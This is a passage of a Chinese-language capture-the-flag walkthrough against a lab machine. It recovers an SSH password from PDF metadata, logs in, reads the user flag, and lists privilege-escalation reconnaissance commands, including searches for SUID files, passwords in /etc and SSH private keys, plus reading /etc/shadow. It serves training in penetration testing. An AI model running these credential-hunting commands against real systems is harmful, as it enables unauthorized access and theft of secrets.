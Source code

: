 ```shell
Producer                        : FPDF 1.7
Title                           : Document 57
Subject                         : File Management System Document
Author                          : welcome:lamar57
Create Date                     : 2025:06:25 12:23:02
Modify Date                     : 2025:06:25 12:23:02
```



### 4.获得`welcome`权限

 测试直接用`welcome/lamar57`成功`ssh`登陆靶机

```shell
└─# ssh welcome@$IP                                                                                      
welcome@192.168.43.97's password: #lamar57
Linux pdf 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
welcome@pdf:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

##### 拿到`user.txt`

```sh
welcome@pdf:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
welcome@pdf:~$ cd
welcome@pdf:~$ ls
user.txt
welcome@pdf:~$ cat user.txt 
flag{user-8d8b7d129eff7655df8d68bc7c23bfde}
welcome@pdf:~$ 
```

### 5.获得`root`权限

没有`sudo`巴拉巴拉敏感文件

```shell
#dpkg -V、ps -ef、crontab -l
一、权限类文件探测
#SUID/SGID权限文件
find / -perm -u=s -type f 2>/dev/null          # 查找SUID权限文件（属主权限继承）
find / -perm -g=s -type f 2>/dev/null          # 查找SGID权限文件（属组权限继承）
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
高危示例：/bin/bash、/usr/bin/find 若配置SUID可能被用于提权。
#全局可写文件/目录
find / -writable -type d 2>/dev/null           # 查找可写目录（用户已用）  
find / -perm -o=w ! -type l 2>/dev/null        # 查找全局可写文件（非符号链接）
二、敏感信息检索
#配置文件与密码泄露
grep -r "password" /etc 2>/dev/null             # 递归搜索/etc目录下的密码字段
find / -name "*.bak" -o -name "*.old" 2>/dev/null  # 查找备份文件
#SSH密钥与凭据
find / -name "id_rsa*" 2>/dev/null              # 搜索SSH私钥文件
cat /etc/passwd /etc/shadow                     # 查看用户及密码哈希文件（需root权限）
#历史命令记录
```